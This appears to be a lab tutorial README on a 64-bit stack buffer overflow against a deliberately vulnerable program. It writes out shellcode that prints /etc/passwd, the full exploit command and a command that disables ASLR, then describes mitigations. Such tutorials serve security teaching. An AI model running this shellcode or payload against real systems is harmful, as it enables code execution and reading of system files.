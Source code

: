 
# Buffer Overflow Exploit

##### The writeup of this exploit was found [here](https://www.exploit-db.com/docs/33698.pdf).

###### Note: All of the following applies to 64-bit systems, in which the length of an address is 8-bytes.

## Exploit overview

This exploit works by overflowing the stack in order to override the return address to point at code that you would like to run. In this exploit, the strcpy function copies user input into the 256-byte buffer. However, strcpy doesn't check bounds, so it copies more than 256 bytes into the array. These last 4 bytes override the return address of the function. When the function returns, the instruction pointer will move to the beginning of the array, and arbitrary code will be run.

In this exploit, the code that will be run simply prints the contents of "/etc/passwd". You can replace the code to be run by replacing the first part of the exploit string.

## Compiling

### Compiling the exploitable C code

In order to compile the code, run the command `gcc -m64 buffer_overflow.c -o buffer_overflow -z execstack -fno-stack-protector`. These compiler flags tell the compiler not to compile the code with stack protection in place. On modern operating systems, stack protection is built in by default, and this type of exploit won't work without explicitly disabling security features.

### Compiling the "malicious" assembly code

To compile the "malicious" code, run the following commands:

```
nasm -f elf64 buffer_overflow_readfile.asm -o buffer_overflow_readfile.o
for i in $(objdump -d buffer_overflow_readfile.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

The output on my system is:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

Next, we need to find the length of that. You can count the number of `\x`s. An easier way may be to do the following:
```
python -c 'print len("*your string here*")'
```
, where you paste the output of the step above inside the `""`.

On my system, this outputs 82. This is the length of your shellcode.

## Running

The following command will run the exploit. There are three things that you might need to adjust for this to work on your system. (As well as pasting in the output from the *Compiling the "malicious" assembly code* above).

```
./buffer_overflow $(python -c 'print "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 + "\x7f\xff\xff\xff\xd9\x50"[::-1]')
```

First, you need to disable 'address space layout randomization' (ASLR). This feature changes the address that memory is allocated, so that you can't hardcode the address of the beginning of the array so that you wouldn't be able to hardcode the address and override the return address with the address of the array. In order to disable this feature on Linux, run `sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'`. This feature is re-enabled on reboot, so your system will be secure with a reboot again.

Second, you need to modify the last portion of the string, which needs to be set to the address of the beginning of the buffer. In this case, `0x7fffffffd950` was the address of the beginning of my array, so I set the last portion of the exploit string to `\x7f\xff\xff\xff\xd9\x50`. In order to find the address of your buffer, simply run `./buffer_overflow test`. The first thing that you should see printed in the output is the address of the buffer. Place this address in the exploit string below.

Third, you need to modify the number of "A"s that you have. The total number of bytes that I found that strcpy needs in order to override the return address is 264. This may vary from system to system depending on offsets (with alignment, the buffer might actually be more or less than 264 bytes away from the return address). In order to find this difference, follow the writeup above. Alternatively, you could simply guess what the number of bytes needed is. (It won't be less than 264 bytes away, because the buffer is 256 bytes in length and there is an 8-byte base pointer between the buffer memory and the return address). In order to guess, just keep adding 4 to the 182 until the exploit works.

The value of 182 was found by calculating that the side of the code that will be run is 82 bytes, and the distance between the buffer and return address being 264. The 182 comes from 264 - 82, because the 182 bytes after the 82 byte unsigned code need to be filled with filler data. If you would like to replace the code to be run in the exploit, replace the first part of the string and adjust the number of "A"s so that the total length of the code and "A"s is 264 (or whatever the difference in address of buffer and return address is).

## Exploit mitigation

There are two main ways to mitigate this exploit: using a canary value and strcpy bounds checking.

### Canary value

A canary value is a value that is placed on the stack and checked before returning from the function in order to see whether the value has changed. In buffer overflow attacks, all values between the address of the buffer (which has a lower address than the canary value) and the return address (which has a higher address than the canary value) are overriden. The canary value is checked before returning. If the canary value has changed, you know that the user executed a buffer overflow attack and you can safely exit without allowing the user to use the return value.

### strcpy Bounds Checking

`strcpy` is an unsafe function that does no bounds checking, and only stops copying data into the buffer when it reaches a '\0' (null terminator) in the string. Thus, in this program, even though the buffer has a size of 256, we give it a string that is 264 bytes in length in order to overflow the buffer and override the return address. To prevent people from exploiting your code if you need to use `strcpy`, use `strncpy`. `strncpy` is the same as `strcpy`, except that you pass it a parameter that specifies the maximum length of string that you would like to copy. In this case, using `strncpy` with a parameter of 256 or less would prevent this buffer overflow.


